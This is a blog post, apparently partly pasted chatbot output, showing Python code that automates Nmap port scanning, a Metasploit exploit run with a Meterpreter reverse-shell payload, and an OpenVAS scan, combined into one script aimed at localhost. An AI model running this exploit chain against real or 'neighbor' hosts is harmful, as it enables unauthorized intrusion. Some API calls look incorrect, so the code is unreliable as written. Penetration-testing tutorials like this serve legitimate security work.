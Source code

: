 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) - p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: false
searchHidden: false
tags: ["threat modeling", "infosec", "coding"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

# ThreatSentry - An advanced threat modeling bot (part 3)

## 3. Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:

  ```python
import nmap
from msfrpc import MsfRpcClient
from gvm.connections import TLSConnection
from gvm.protocols.gmp import Gmp
from gvm.transforms import EtreeTransform

# Perform network scan using Nmap
def perform_network_scan(target_ip):
    scanner = nmap.PortScanner()
    scanner.scan(target_ip, arguments='-p-')  # Scan all ports

    open_ports = []
    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            for port in scanner[host][proto]:
                if scanner[host][proto][port]['state'] == 'open':
                    open_ports.append(port)

    return open_ports

# Exploit target using Metasploit Framework
def exploit_target(target_ip, target_port):
    client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
    exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

    exploit_module['RHOSTS'] = target_ip
    exploit_module['RPORT'] = target_port

    session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

    return session

# Initiate vulnerability scan using OpenVAS
def initiate_vulnerability_scan(target_ip):
    connection = TLSConnection(hostname='openvas_server', port=9390)
    transform = EtreeTransform()

    with Gmp(connection, transform=transform) as gmp:
        gmp.authenticate('username', 'password')
        scan_id = gmp.create_task(target=target_ip)

        # Start the scan
        gmp.start_task(scan_id)

        return scan_id

# Execute the scan, detect, and vulnerability check
def execute_network_security_check(target_ip):
    # Network scan using Nmap
    open_ports = perform_network_scan(target_ip)

    # Exploit target using Metasploit Framework
    session = exploit_target(target_ip, 80)  # Adjust the target port as needed

    # Initiate vulnerability scan using OpenVAS
    scan_id = initiate_vulnerability_scan(target_ip)

    # Save the outputs to separate TXT files
    with open('network_scan_output.txt', 'w') as f:
        f.write('Open Ports:\n')
        for port in open_ports:
            f.write(f'{port}\n')

    with open('exploit_output.txt', 'w') as f:
        f.write('Exploit Session:\n')
        f.write(f'{session}\n')

    with open('vulnerability_scan_output.txt', 'w') as f:
        f.write('Scan ID:\n')
        f.write(f'{scan_id}\n')

    print('Network security check completed. Results saved to TXT files.')

# Execute the script with your localhost IP as the target
execute_network_security_check('localhost')
  ```
